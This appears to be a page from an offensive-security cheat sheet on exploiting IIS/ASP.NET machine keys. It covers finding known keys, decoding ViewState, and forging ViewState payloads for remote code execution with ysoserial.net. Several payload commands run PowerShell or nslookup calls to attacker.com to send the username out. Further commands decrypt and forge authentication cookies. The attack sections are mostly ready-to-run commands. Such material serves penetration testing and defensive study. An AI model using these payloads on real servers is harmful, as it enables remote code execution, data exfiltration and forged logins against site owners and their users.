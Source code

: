 # IIS Machine Keys

> That machine key is used for encryption and decryption of forms authentication cookie data and view-state data, and for verification of out-of-process session state identification.

## Summary

* [Viewstate Format](#viewstate-format)
* [Machine Key Format And Locations](#machine-key-format-and-locations)
* [Identify Known Machine Key](#identify-known-machine-key)
* [Decode ViewState](#decode-viewstate)
* [Generate ViewState For RCE](#generate-viewstate-for-rce)
    * [MAC Is Not Enabled](#mac-is-not-enabled)
    * [MAC Is Enabled And Encryption Is Disabled](#mac-is-enabled-and-encryption-is-disabled)
    * [MAC Is Enabled And Encryption Is Enabled](#mac-is-enabled-and-encryption-is-enabled)
* [Edit Cookies With The Machine Key](#edit-cookies-with-the-machine-key)
* [References](#references)


## Viewstate Format

ViewState in IIS is a technique used to retain the state of web controls between postbacks in ASP.NET applications. It stores data in a hidden field on the page, allowing the page to maintain user input and other state information.

| Format | Properties |
| --- | --- |
| Base64 | `EnableViewStateMac=False`,  `ViewStateEncryptionMode=False` |
| Base64 + MAC | `EnableViewStateMac=True` |
| Base64 + Encrypted | `ViewStateEncryptionMode=True` |

By default until Sept 2014, the `enableViewStateMac` property was to set to `False`.
Usually unencrypted viewstate are starting with the string `/wEP`.


## Machine Key Format And Locations

A machineKey in IIS is a configuration element in ASP.NET that specifies cryptographic keys and algorithms used for encrypting and validating data, such as view state and forms authentication tokens. It ensures consistency and security across web applications, especially in web farm environments. 

The format of a machineKey is the following.

```xml
<machineKey validationKey="[String]"  decryptionKey="[String]" validation="[SHA1 (default) | MD5 | 3DES | AES | HMACSHA256 | HMACSHA384 | HMACSHA512 | alg:algorithm_name]"  decryption="[Auto (default) | DES | 3DES | AES | alg:algorithm_name]" />
```

The `validationKey` attribute specifies a hexadecimal string used to validate data, ensuring it hasn't been tampered with. 

The `decryptionKey` attribute provides a hexadecimal string used to encrypt and decrypt sensitive data. 

The `validation` attribute defines the algorithm used for data validation, with options like SHA1, MD5, 3DES, AES, and HMACSHA256, among others. 

The `decryption` attribute specifies the encryption algorithm, with options like Auto, DES, 3DES, and AES, or you can specify a custom algorithm using alg:algorithm_name.

The following example of a machineKey is from Microsoft documentation (https://docs.microsoft.com/en-us/iis/troubleshoot/security-issues/troubleshooting-forms-authentication).

```xml
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```

Common locations of **web.config** / **machine.config**

* 32-bits
    * `C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config`
* 64-bits
    * `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config`
* in the registry when **AutoGenerate** is enabled (extract with https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab)
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4`  
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey`


## Identify Known Machine Key

Try multiple machine keys from known products, Microsoft documentation, or other part of the Internet.

* [isclayton/viewstalker](https://github.com/isclayton/viewstalker)

    ```powershell
    ./viewstalker --viewstate /wEPD...TYQ== -m 3E92B2D6 -M ./MachineKeys2.txt
    ____   ____.__                       __         .__   __
    \   \ /   /|__| ______  _  _________/  |______  |  | |  | __ ___________ 
    \   Y   / |  |/ __ \ \/ \/ /  ___/\   __\__  \ |  | |  |/ // __ \_  __ \
    \     /  |  \  ___/\     /\___ \  |  |  / __ \|  |_|    <\  ___/|  | \/
    \___/   |__|\___  >\/\_//____  > |__| (____  /____/__|_ \\___  >__|   
                    \/           \/            \/          \/    \/       

    KEY FOUND!!!
    Host:   
    Validation Key: XXXXX,XXXXX
    ```

* [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets)

    ```ps1
    python examples/blacklist3r.py --viewstate /wEPDwUK...j81TYQ== --generator 3E92B2D6
    Matching MachineKeys found!
    validationKey: C50B3C89CB21F4F1422FF158A5B42D0E8DB8CB5CDA1742572A487D9401E3400267682B202B746511891C1BAF47F8D25C07F6C39A104696DB51F17C529AD3CABE validationAlgo: SHA1
    ```

* [NotSoSecure/Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)

    ```powershell
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    ```

* [0xacb/viewgen](https://github.com/0xacb/viewgen)

    ```powershell
    $ viewgen --guess "/wEPDwUKMTYyOD...WRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
    [+] ViewState is not encrypted
    [+] Signature algorithm: SHA1
    ```

List of interesting machine keys to use:

* [NotSoSecure/Blacklist3r/MachineKeys.txt](https://github.com/NotSoSecure/Blacklist3r/raw/f10304bc90efaca56676362a981d93cc312d9087/MachineKey/AspDotNetWrapper/AspDotNetWrapper/Resource/MachineKeys.txt)
* [isclayton/viewstalker/MachineKeys2.txt](https://raw.githubusercontent.com/isclayton/viewstalker/main/MachineKeys2.txt)
* [blacklanternsecurity/badsecrets/aspnet_machinekeys.txt](https://raw.githubusercontent.com/blacklanternsecurity/badsecrets/dev/badsecrets/resources/aspnet_machinekeys.txt)


## Decode ViewState

* [BApp Store > ViewState Editor](https://portswigger.net/bappstore/ba17d9fb487448b48368c22cb70048dc) - ViewState Editor is an extension that allows you to view and edit the structure and contents of V1.1 and V2.0 ASP view state data.
* [0xacb/viewgen](https://github.com/0xacb/viewgen)
    ```powershell
    $ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
    ```


## Generate ViewState For RCE

First you need to decode the Viewstate to know if the MAC and the encryption are enabled. 

**Requirements**

* `__VIEWSTATE`
* `__VIEWSTATEGENERATOR`


### MAC Is Not Enabled

```ps1
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName"
```


### MAC Is Enabled And Encryption Is Disabled

* Find the machine key (validationkey) using `badsecrets`, `viewstalker`, `AspDotNetWrapper.exe` or `viewgen` 
    ```ps1
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    # --modifier = `__VIEWSTATEGENERATOR` parameter value
    # --encrypteddata = `__VIEWSTATE` parameter value of the target application
    ```

* Then generate a ViewState using [pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net), both `TextFormattingRunProperties` and `TypeConfuseDelegate` gadgets can be used.
    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell.exe -c nslookup http://attacker.com" --generator=3E92B2D6 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

    # --generator = `__VIEWSTATEGENERATOR` parameter value
    # --validationkey = validation key from the previous command
    ```


### MAC Is Enabled And Encryption Is Enabled

Default validation algorithm is `HMACSHA256` and the default decryption algorithm is `AES`.

If the `__VIEWSTATEGENERATOR` is missing but the application uses .NET Framework version 4.0 or below, you can use the root of the app (e.g: `--apppath="/testaspx/"`). 

* **.NET Framework < 4.5**, ASP.NET always accepts an unencrypted `__VIEWSTATE` if you remove the `__VIEWSTATEENCRYPTED` parameter from the request
    ```ps1
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --apppath="/testaspx/" --islegacy --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" --isdebug
    ```

* **.NET Framework > 4.5**, the machineKey has the property: `compatibilityMode="Framework45"`
    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --validationalg="HMACSHA256" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
    ```


## Edit Cookies With The Machine Key

If you have the `machineKey` but the viewstate is disabled.

ASP.net Forms Authentication Cookies : https://github.com/liquidsec/aspnetCryptTools

```powershell
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```


## References

* [Deep Dive into .NET ViewState Deserialization and Its Exploitation - Swapneil Kumar Dash - October 22, 2019](https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)
* [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili - April 23, 2019](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* [Exploiting ViewState Deserialization using Blacklist3r and YSoSerial.Net - Claranet - June 13, 2019](https://www.claranet.com/us/blog/2019-06-13-exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserialnet)
* [Project Blacklist3r - @notsosecure - November 23, 2018](https://www.notsosecure.com/project-blacklist3r/)
* [View State, The Unpatchable IIS Forever Day Being Actively Exploited - Zeroed - July 21, 2024](https://zeroed.tech/blog/viewstate-the-unpatchable-iis-forever-day-being-actively-exploited/)